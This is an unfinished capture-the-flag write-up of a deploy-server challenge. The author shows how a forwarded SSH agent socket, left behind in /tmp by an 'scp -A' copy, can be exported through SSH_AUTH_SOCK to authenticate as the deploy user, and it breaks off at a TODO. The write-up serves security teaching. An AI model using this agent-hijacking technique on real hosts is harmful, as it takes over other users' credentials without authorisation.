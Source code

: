 # Super Cool Secret Project

I built this service to automatically deploy my application to all the servers that want to run it.

All you have to do is provide a SSH username, and host, and I will connect and give you a copy of the app. Please accept my public key.

http://deployserver.youcanhack.me/

![deployserver.youcanhack.me](./deployserver.jpg)

## Solution

We're given access to deployserver which will deploy an application to a server under our control. A public SSH key is provided that we need to add to a user's .ssh/authorized_keys file on our server. This will allow the deployserver to authenticate with our server over ssh. After the public key is added - we provide the username, hostname, port number and then submit the form. After doing so, we see the message '--- SSH Attempted ---'. Let's go take a look at the user's home directory and see if it deployed anything.

```
➜ ls -1
HC2023-SuperCoolSecretProject
```

We see that it did in fact deploy an app called 'HC2023-SuperCoolSecretProject' to our user's home directory. When we change into the directory and list the contents, we see that it's a git repository with a README:

```
➜ cd HC2023-SuperCoolSecretProject && ls -lah
total 20K
drwxr-xr-x. 3 hc hc 4.0K Nov  1 02:10 .
drwx------. 7 hc hc 4.0K Nov  1 02:48 ..
drwxrwxr-x. 8 hc hc 4.0K Nov  1 02:47 .git
-rw-r--r--. 1 hc hc   24 Nov  1 02:10 .gitignore
-rw-r--r--. 1 hc hc   25 Nov  1 02:10 README.md
```

Not much in the README:
```bash
➜  cat README.md
# SuperCoolSecretProject
```

A quick grep reveals a .flag file is being ignored via the gitignore.
```bash
➜  HC2023-SuperCoolSecretProject git:(main) grep -R 'flag' .
./.gitignore:.flag
```

Hm, well let's take a look at the git log and see what history exists in version control. It's possible the file was committed to the repo at one point and then was later removed. If that's the case there's a chance it wasn't removed properly from the repo and we may be able to recover it.

```bash
➜  git log
78aba76 - (grafted, HEAD, origin/main, origin/HEAD, main) oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
```

It looks like zevlag removed a secret from the repo. Perhaps our flag? Let's take a look at the git diff for that commit and see what changed. If we're lucky, he didn't remove it from the repo the proper way and we may be able to see it.

```diff
➜  git show 78aba76
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
diff --git a/README.md b/README.md
new file mode 100644
index 0000000..2308fa5
--- /dev/null
+++ b/README.md
@@ -0,0 +1 @@
+# SuperCoolSecretProject
```

Dang, no flag and there are no other commits. It seems it was removed the proper way. That's good. So.. there must be something else. Let's think about this. Git repositories generally have a 'remote' that specifies where it's hosted and can be fetched and pushed. Perhaps the secret still exists in the remote repository? Let's check and see what this repository's remotes are set to:

```bash
➜  git remote -v
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (fetch)
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (push)
```

Great, that's something. It's host on github and has an ssh origin url. That means the repository can be pulled and pushed to over ssh with public key authentication. We know the deployserver used ssh to securely copy the repository onto our server. Let's re-evaluate the commands that were used to do that:

```bash
git clone --depth 1 {censored URL}
scp -P {port} -rCA ~/SuperCoolSecretProject {user}@{host}:~/HC2023-SuperCoolSecretProject
```

Interesting.. The repository was cloned down with the same user that then securely copied the repository onto our server. In order to clone the repository, the user must have authenticated over ssh since the remote origin urls are ssh urls. Let's take a look at the options that were passed to the `scp` command (`-rCA`) to fully understand what it's doing. The `r` option means copy recursively and the `C` option enables compression which reduces the total bandwidth needed for the transfer. The `A` option doesn't appear to be a valid / documented scp option. However, if you use ssh often, you may know that `-A` is a valid option for `ssh`: If we RTFM:

```bash
-A      Enables forwarding of connections from an authentication agent such as ssh-agent(1).  This can also be specified on a per-host basis in a configuration file.

        Agent forwarding should be enabled with caution.  Users with the ability to bypass file permissions on the remote host (for the agent's UNIX-domain socket) can access the local agent through the forwarded connection.  An attacker cannot obtain key
        material from the agent, however they can perform operations on the keys that enable them to authenticate using the identities loaded into the agent.  A safer alternative may be to use a jump host (see -J).
```

If someone is able to access the forwarded SSH_AUTH_SOCK, they could export it and use it as their own. We may be able to do exactly that. Just from experience, we know SSH_AUTH_SOCK is exported to /tmp by default with the pattern 'ssh-XXXXXXXXXX/agent.%d'. Let's take a look in /tmp on the server and see if the deployserver forwarded it's SSH_AUTH_SOCK:

```bash
➜  ls -lah /tmp/ssh-ARAGypNoQ0/agent.1303
srwxr-xr-x. 1 hc hc 0 Nov  2 03:12 /tmp/ssh-ARAGypNoQ0/agent.1303
```

Yep! It is. From here.. All we need to do is export SSH_AUTH_SOCK to that path in our environment.

```bash
➜  export SSH_AUTH_SOCK=/tmp/ssh-ARAGypNoQ0/agent.1303
```

Now let's see if we can use this forwarded auth socket to authenticate with the remote repository and pull down any extra history that might exists:

```bash
➜  git pull
```

TODO